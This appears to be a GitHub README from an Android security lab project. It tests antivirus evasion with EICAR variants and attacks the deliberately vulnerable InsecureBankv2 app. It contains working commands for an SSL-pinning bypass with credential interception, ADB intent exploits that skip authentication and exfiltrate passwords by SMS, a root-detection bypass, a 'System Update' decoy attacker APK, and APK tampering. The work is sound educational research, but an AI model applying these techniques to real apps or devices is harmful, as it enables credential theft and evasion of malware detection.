









# Android AV Detection & Bypass Research

> **Educational security research** — all tests performed in an isolated Android emulator lab.  
> No real devices or third-party systems were targeted.

---

## Overview

This project builds a complete Android mobile security lab from scratch and uses it to evaluate the detection capabilities of three commercial Android antivirus engines against a series of increasingly evasive test payloads.

**Tools used:** Android Emulator (rooted) · ADB · Frida · mitmproxy · jadx · apktool  
**Target AVs:** AVG AntiVirus · Kaspersky · BitDefender  
**Test payload:** EICAR standard antivirus test file (industry-standard harmless test string)

---

## Lab Setup

| Component | Details |
|-----------|---------|
| Device | Android 13 (API 33) — Pixel 6 emulator |
| Architecture | arm64-v8a (Apple Silicon host) |
| Root access | via `adb root` + overlayfs remount |
| Dynamic analysis | Frida 17.9.10 server on-device |
| Traffic interception | mitmproxy CA cert installed in system trust store |

See [`scripts/setup_lab.sh`](scripts/setup_lab.sh) to reproduce the full environment.

---

## Methodology

### Test Files

| File | Description |
|------|-------------|
| `eicar.txt` | Raw EICAR string — baseline detection check |
| `eicar_b64.txt` | Base64-encoded EICAR — tests if AV decodes before scanning |
| `vacation_photo.jpg` | EICAR with `.jpg` extension — tests extension-based trust |
| `dropper.sh` | Shell script that assembles EICAR at runtime from split variables |
| `runtime_payload.txt` | Output of `dropper.sh` — assembled payload written to disk |

All files pushed via:
```bash
adb push <file> /sdcard/Download/<file>
```

### Scan Process

1. Installed AV via `adb install-multiple` (sideloaded XAPKs)
2. Granted `MANAGE_EXTERNAL_STORAGE` permission via `adb shell appops set`
3. Triggered full device scan via AV UI (automated with `adb shell uiautomator`)
4. Recorded detection results per file

---

## Results

### AVG AntiVirus

| File | Detection | Notes |
|------|-----------|-------|
| `eicar.txt` | **DETECTED** | Detection ID: 2586d6511629 |
| `runtime_payload.txt` | **DETECTED** | Detection ID: fc0d6eae694d — catches assembled payload |
| `eicar_b64.txt` | **MISSED** | Base64 encoding fully bypasses static scanner |
| `vacation_photo.jpg` | **MISSED** | Extension spoofing not caught |
| `dropper.sh` | **MISSED** | Script itself not flagged, only its output |



---

## Key Findings

### 1. AVG uses pure signature-based scanning
AVG matches raw byte signatures on disk. It does **not**:
- Decode base64 before scanning
- Check file contents vs extension
- Statically analyse shell scripts for payload assembly

### 2. Runtime assembly is a partial bypass
The dropper script itself is invisible to AVG. However, once the assembled payload is written to disk, a subsequent scan detects it. This means:
- Single scan window: dropper runs → payload is undetected **until the next scan**
- In a real attack, the payload would execute and delete itself before the next scan cycle

### 3. Base64 is a complete static bypass
`eicar_b64.txt` was never detected across multiple scans. AVG's engine does not attempt to decode encoded content before signature matching.

---

## Defense Recommendations

| Weakness Found | Recommended Fix |
|----------------|-----------------|
| Base64 bypass | Implement content decoding before signature matching (heuristic layer) |
| Script not flagged | Add static analysis for shell/script files (behavior emulation) |
| Extension spoofing | Always scan by content type, never trust file extension |
| No runtime monitoring | Behavior-based detection (file write monitoring) would catch the dropper |

---

### Kaspersky Free

Full scan: 2111 files · 1 min 29 sec · **Quarantined: 2**

| File | Detection | Notes |
|------|-----------|-------|
| `eicar.txt` | **DETECTED** | Threat: EICAR-Test-File → Quarantined |
| `runtime_payload.txt` | **DETECTED** | Threat: EICAR-Test-File → Quarantined |
| `eicar_b64.txt` | **MISSED** | Base64 encoding bypasses scanner |
| `vacation_photo.jpg` | **MISSED** | Extension spoofing not caught |
| `dropper.sh` | **MISSED** | Script not flagged, only its output |




---

### AV Comparison Summary

| File | AVG | Kaspersky | Notes |
|------|-----|-----------|-------|
| `eicar.txt` | **DETECTED** | **DETECTED** | Both catch raw EICAR |
| `runtime_payload.txt` | **DETECTED** | **DETECTED** | Both catch assembled payload |
| `eicar_b64.txt` | **MISSED** | **MISSED** | Base64 bypasses both |
| `vacation_photo.jpg` | **MISSED** | **MISSED** | Extension spoofing bypasses both |
| `dropper.sh` | **MISSED** | **MISSED** | Script not flagged by either |

Both engines share the same detection profile: signature-based, no content decoding, no script analysis.

---

## Phase 2 — SSL Pinning Bypass (Frida + mitmproxy)

**Target:** InsecureBankv2 — a deliberately vulnerable banking app for security research  
**Goal:** Intercept HTTPS traffic that an app would normally protect with certificate pinning

### Setup

```bash
# Route all emulator traffic through mitmproxy
mitmdump --listen-port 8888 --mode regular
adb shell settings put global http_proxy 10.0.2.2:8888

# Spawn target app with Frida hooks injected at startup
frida -U -f com.android.insecurebankv2 -l scripts/ssl_bypass.js
```

### Frida Hook Output

```
[+] SSLContext.init hooked
[+] HostnameVerifier bypassed
[✓] All SSL bypass hooks loaded
```

### mitmproxy Intercepted Traffic

```
GET  http://www.google.com/gen_204           << 204 No Content
GET  https://www.google.com/generate_204     << 204 No Content  ← HTTPS decrypted
POST http://10.0.2.2:4444/login              << login captured ✓
```

### What was bypassed

| Hook | Target | Effect |
|------|--------|--------|
| `SSLContext.init` | All SSL connections | Replaced TrustManager — accepts any cert |
| `Conscrypt.verifyChain` | Android's TLS stack | Chain validation skipped |
| `OkHttp3.CertificatePinner.check` | OkHttp pinning | Returns without throwing |
| `WebViewClient.onReceivedSslError` | WebView HTTPS | Calls `handler.proceed()` |
| `HttpsURLConnection.setDefaultHostnameVerifier` | Hostname check | No-op |

### Key finding

Frida can inject bypass hooks **before the app's first network call** (using `-f` spawn mode).
By the time the login button is tapped, all SSL validation is already neutralized.
mitmproxy then decrypts and logs credentials in plaintext — even if the app had certificate pinning.

---

## Phase 3 — Static Analysis & Full Vulnerability Exploitation

**Target:** InsecureBankv2 — deliberately vulnerable Android banking app  
**Method:** APK decompilation with `jadx` → source code review → ADB exploit execution

### Decompilation

```bash
jadx -d /tmp/insecurebank_src /tmp/insecurebank.apk
# Produces ~40 readable Java source files
```

### Vulnerabilities Found & Exploited

| # | Vulnerability | Location | Severity |
|---|--------------|----------|----------|
| 1 | Hardcoded AES-256 key + zero IV | `CryptoClass.java:22` | Critical |
| 2 | Plaintext credential logging to logcat | `DoLogin.java:115` | Critical |
| 3 | 5 exported components — no auth required | `AndroidManifest.xml` | Critical |
| 4 | BroadcastReceiver SMS password exfiltration | `MyBroadCastReceiver.java:29` | Critical |
| 5 | ViewStatement WebView XSS (JS enabled) | `ViewStatement.java:26` | High |
| 6 | HTTP (not HTTPS) used for all requests | `DoLogin.java:51` | High |
| 7 | Exported ContentProvider leaks login history | `TrackUserContentProvider.java` | Medium |

### Exploits — All Confirmed

**Authentication bypass — PostLogin (no credentials needed):**
```bash
adb shell "am start -n com.android.insecurebankv2/.PostLogin --es uname 'hacker'"
```


**Authentication bypass — DoTransfer (money transfer screen without login):**
```bash
adb shell "am start -n com.android.insecurebankv2/.DoTransfer --es uname 'hacker'"
```


**WebView XSS — JavaScript execution inside the banking app:**
```bash
adb push xss_payload.html /sdcard/Statements_hacker.html
adb shell "am start -n com.android.insecurebankv2/.ViewStatement --es uname 'hacker'"
```


**BroadcastReceiver SMS exfiltration:**
```bash
adb shell "am broadcast -a theBroadcast \
  --es phonenumber '15555215554' \
  --es newpass 'hacked123' \
  -n com.android.insecurebankv2/.MyBroadCastReceiver"
# Broadcast completed: result=0
```

**AES decryption — hardcoded key reverses all stored passwords:**
```
$ python3 scripts/decrypt_creds.py
Plaintext          Ciphertext (stored in SharedPreferences)    Decrypted
-----------------------------------------------------------------------
Dinesh@123!        0JQhVcadBP6rBi9y0nf9wA==                   Dinesh@123!
Jack@123!          fnxTrBBr3vebTuNccGD5Bw==                   Jack@123!
```

See `scripts/decrypt_creds.py` for full decryption PoC.

---

## Phase 4 — Runtime Manipulation (Frida)

### Root Detection Bypass

PostLogin shows "Device not Rooted!!" using two Java checks. One Frida hook flips both:

```javascript
PostLogin.doesSUexist.implementation = function () { return true; };
PostLogin.doesSuperuserApkExist.implementation = function (s) { return true; };
```

```bash
frida -U <PID> -l scripts/root_bypass.js
adb shell "am start -n com.android.insecurebankv2/.PostLogin --es uname 'hacker'"
```



**Result:** "Device not Rooted!!" → **"Rooted Device!!"** — Frida can fake any runtime security check.

---

### Logcat Credential Harvest

`DoLogin.java:115` logs credentials after every login:

```java
Log.d("Successful Login:", ", account=" + username + ":" + password);
```

Frida hooks `postData()` to intercept username/password and fire the `Log.d` call:

```bash
frida -U <PID> -l scripts/credential_harvest.js
# Tap login in UI → logcat immediately shows:
adb logcat -s "Successful Login:"
# D Successful Login:: , account=dinesh:Abc123
```

Any app holding `READ_LOGS` silently harvests every credential entered into the banking app.

---

## Phase 5 — Malicious APK (Proof-of-Concept Attacker App)

A real Android app (`malicious_app/`) that exploits all InsecureBankv2 vulnerabilities with one button press. Disguised as "System Update" to demonstrate social engineering.

**APK:** `malicious_app/attacker.apk`  
**Source:** `malicious_app/app/src/main/java/com/research/attacker/AttackActivity.java`

### What it does

Tapping "Run All Exploits" fires 4 attacks sequentially from a single installed app — no ADB, no root, no permissions beyond what's declared:

```
[*] Starting exploit chain against com.android.insecurebankv2

[1] Launching PostLogin without credentials...
    [✓] PostLogin opened — full banking dashboard accessible
[2] Launching DoTransfer without credentials...
    [✓] DoTransfer opened — money transfer screen accessible
[3] Sending theBroadcast — SMS password exfiltration...
    [✓] Broadcast sent to MyBroadCastReceiver
    [✓] If victim has logged in: password SMS'd to 15555215554
[4] Querying TrackUserContentProvider (login history)...
    [✓] ContentProvider queried

[✓] All exploits fired.
```




### Key point

The attacker app needs **zero special permissions** to launch banking activities or send the broadcast. Android's `exported=true` with no `android:permission` attribute means any installed app is authorized by default.

---

## Phase 6 — APK Tampering (apktool)

**Target:** InsecureBankv2  
**Goal:** Decompile APK → patch smali bytecode → repack → sign → install

### Process

```bash
# 1. Decompile
apktool d insecurebank.apk -o insecurebank_smali

# 2. Patch — change hardcoded AES key in CryptoClass.smali line 29
# Before: const-string v0, "This is the super secret key 123"
# After:  const-string v0, "PATCHED_KEY_RESEARCHER!!"

# 3. Patch app name in res/values/strings.xml
# Before: <string name="app_name">InsecureBankv2</string>
# After:  <string name="app_name">InsecureBankv2 [PATCHED]</string>

# 4. Repack
apktool b insecurebank_smali -o insecurebank_patched_unsigned.apk

# 5. Sign with new keystore
keytool -genkey -keystore research.keystore -alias research ...
jarsigner -keystore research.keystore insecurebank_patched_unsigned.apk research
zipalign -v 4 insecurebank_patched_unsigned.apk insecurebank_patched.apk

# 6. Install
adb uninstall com.android.insecurebankv2
adb install insecurebank_patched.apk
```

### Results

**App name visible in title bar and system dialogs — confirms smali patch survived repack:**



**Key patch breaks all stored credential decryption:**

```python
ciphertext = base64.b64decode('0JQhVcadBP6rBi9y0nf9wA==')  # stored password

Original key  →  b'Dinesh@123!\x05\x05\x05\x05\x05'   ← correct plaintext
Patched key   →  b'\x1e\x9e\xaa\x94\x96\x1c\xf6f...'  ← garbage
```

### What this demonstrates

Any Android APK without code signing certificate pinning can be:
1. Decompiled to readable smali bytecode with `apktool`
2. Patched — changing constants, logic, or adding new code
3. Repacked and signed with an attacker-controlled certificate
4. Installed on any device with "Unknown sources" enabled

The OS accepts the patched APK as a valid install — it cannot detect that the signing certificate changed. Users who sideload apps have no way to verify integrity.

**Patched APK:** `insecurebank_patched.apk` (3.3 MB)

---

## What This Demonstrates

- Setting up a professional Android security research environment
- Systematic AV evasion methodology (static → encoded → runtime)
- Dynamic instrumentation with Frida — hooking live Java methods at runtime
- HTTPS traffic interception with mitmproxy after SSL pinning bypass
- APK decompilation with `jadx` — extracting full Java source from compiled APKs
- Source code auditing — finding hardcoded keys, exported components, unsafe WebViews
- ADB intent exploitation — launching protected activities without authentication
- Android component security — exported BroadcastReceivers, Activities, ContentProviders
- Understanding the difference between **signature-based** and **behavior-based** detection
- Responsible disclosure mindset — findings documented for defensive improvement

---

## Repo Structure

```
android-av-research/
├── README.md               ← This file
├── scripts/
│   ├── setup_lab.sh        ← Full lab setup script
│   ├── dropper.sh          ← Runtime payload assembler (runs on device)
│   ├── encode_payload.sh   ← Base64 encoding bypass demo
│   ├── ssl_bypass.js       ← Frida script: bypass SSL pinning (5 hooks)
│   └── decrypt_creds.py    ← AES decryption PoC using hardcoded key
├── screenshots/
│   ├── avg_welcome.png             ← AVG installed and running
│   ├── avg_detections.png          ← Scan results showing detections
│   ├── postlogin_auth_bypass.png   ← Banking dashboard without login
│   ├── dotransfer_auth_bypass.png  ← Transfer screen without login
│   └── viewstatement_xss.png      ← JavaScript executed in banking WebView
└── writeup/
    └── what_i_did.md       ← Complete step-by-step methodology
```

---

## Author

**Sherbekjon Rustamov**  
Security researcher & developer  
[rustamovsherbekjon@gmail.com](mailto:rustamovsherbekjon@gmail.com)

---

> All testing was performed in an isolated emulator environment.  
> No real devices, users, or third-party systems were affected.  
> This research is intended to improve understanding of mobile AV detection mechanisms.
